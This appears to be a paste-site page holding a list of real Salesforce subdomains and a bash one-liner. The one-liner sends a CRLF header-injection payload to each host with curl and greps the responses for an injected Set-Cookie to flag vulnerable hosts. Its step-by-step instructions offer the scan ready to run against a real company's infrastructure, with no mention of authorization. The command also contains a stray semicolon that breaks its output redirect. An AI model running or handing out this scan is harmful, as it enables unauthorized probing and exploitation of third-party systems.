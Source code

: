 1.umps5.salesforce.com
2.umps5.salesforce.com
3.umps5.salesforce.com
4.umps5.salesforce.com
umps8.salesforce.com
0.umps8.salesforce.com
1.umps8.salesforce.com
2.umps8.salesforce.com
3.umps8.salesforce.com
4.umps8.salesforce.com
umps9.salesforce.com
0.umps9.salesforce.com
1.umps9.salesforce.com
2.umps9.salesforce.com
3.umps9.salesforce.com
4.umps9.salesforce.com
5.umps9.salesforce.com
6.umps9.salesforce.com
nan.umps9.salesforce.com
webto.salesforce.com
www-chi-1.salesforce.com
www1.salesforce.com
RAW Paste Data

1) salesforce domains save to file:    salesforce.list
2) in terminal paste this command:

--cut-here
while read -r line;do curl -s -I "https://$line/%0DSet-Cookie:crlf=injection;domain=.salesforce.com;" | grep '^Set-Cookie' | grep 'injection'; >> request.out;done < salesforce.list 
--cut-here

the command test domain for domain in the salesforce file and do a curl request + payload (CRLF) , then grep look if there are a match with 2 strings "Set-Cookie" and "injection". If both match shows output with the vulnerable response

salesforce.list

www.salesforce.com
academic-alliance.salesforce.com
admin.salesforce.com
analyticsplayground.salesforce.com
ap.salesforce.com
ap0.salesforce.com
dcl5-ukb.ap0-ukb.salesforce.com
ap1.salesforce.com
dcl1-ukb.ap1-ukb.salesforce.com
dcl2-ukb.ap1-ukb.salesforce.com
dcl3-ukb.ap1-ukb.salesforce.com
dcl4-ukb.ap1-ukb.salesforce.com
dcl5-ukb.ap1-ukb.salesforce.com
dcl6-ukb.ap1-ukb.salesforce.com
dcl8-ukb.ap1-ukb.salesforce.com
ap2.salesforce.com
ap2-ukb.salesforce.com
dcl2-ukb.ap2-ukb.salesforce.com
dcl3-ukb.ap2-ukb.salesforce.com
dcl4-ukb.ap2-ukb.salesforce.com
dcl5-ukb.ap2-ukb.salesforce.com
dcl6-ukb.ap2-ukb.salesforce.com
dcl8-ukb.ap2-ukb.salesforce.com
ap3.salesforce.com
ap4.salesforce.com
dcl2-ukb.ap4-ukb.salesforce.com
ap5.salesforce.com
dcl8-ukb.ap5-ukb.salesforce.com